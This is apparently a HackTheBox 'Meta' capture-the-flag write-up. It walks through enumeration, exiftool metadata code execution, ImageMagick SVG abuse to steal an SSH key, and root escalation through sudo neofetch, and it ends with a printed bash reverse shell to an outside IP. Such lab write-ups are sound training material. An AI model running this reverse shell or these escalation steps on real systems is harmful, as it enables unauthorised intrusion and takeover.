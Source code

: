 # Meta HackTheBox Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run **nmap** on all ports with scripts and software versions. We see that the web service redirects to the domain *artcorp.htb*, we insert it in our */etc/hosts* file.

![](2.png)


## Enumeration
We tested access at both sites, but they lead to the same destination.

![](3.png)

##### Viewing website:
![](4.png)

We list three possible relevant users in the company:

![](5.png)

We also see that they are promoting a new product called "*MetaView*" (the machine is called Meta, so it could be a clue).

![](6.png)

We launch the **wfuzz** tool and enumerate a subdomain "*dev01.artcorp.htb*":

![](7.png)

We access the website, find a link to the tool they are developing.

![](8.png)


## Exploitation
There appears to be a file upload field and it displays metadata. 

![](9.png)

If we look at the result, it is very similar to the output of the **exiftool**:

![](10.png)

#### Exploit: [https://github.com/OneSecCyber/JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE)

We perform the same process of the exploit and insert a system command (*"ls -lna"*) in the image metadata:

![](11.png)

We upload the image and see that the command is executed on the machine:

![](12.png)

Since we had to put all the code in the metadata, I found it easier to encode the payload in **base64**.

![](13.png)

We insert the **base64** payload, add decoding and execution on the victim machine:

![](14.png)

We listen in with a **netcat** and gain access to the machine:

![](15.png)

We tried to read the user flag, but we do not have permissions.

![](16.png)

We run **pspy** and see that a script called "*convert_images.sh*" is executed:

![](17.png)

#### Visualizing content:
The script takes the inserted content of the path "*/var/www/dev01.artcorp.htb/convert_images/*" and executes it with mogrify accepting any file:

![](18.png)

Searching for the "**mogrify**" binary, I found a lot of information about "**ImageMagick**", which allows you to execute commands through an XML file.

So I checked the version and did some research:

![](19.png)

So, I used the following file to copy the SSH private key of the user "*thomas*" and inserted it in a m3.svg file in the path "*/var/www/dev01.artcorp.htb/convert_images/*" and we only had to wait for the script to run it in a few minutes.

![](20.png)

We wait a few minutes and see that we have obtained the "*id_rsa*" file of the user *Thomas*:

![](22.png)

## Privilege Escalation
We connect via **SSH** with the private key and read the user flag.

We also see that we can run as the root user the "**neofetch**" binary.

![](23.png)

We searched [gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/) and found ways to exploit this binary.

![](26.png)

We can see that there is a configuration file for this binary in our folder.

![](24.png)

We insert our reverse shell into our neofetch configuration file:

![](25.png)

We put a **netcat** listening on port 443 and execute the two commands through the terminal. We will gain root access and read the flag.

### Explotation code:
```bash
# Reverse shell /home/thomas/.config/neofetch/config.php
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"

# Terminal execution
export XDG_CONFIG_HOME="$HOME/.config"
sudo -u root /usr/bin/neofetch \"\" 
```

![](27.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)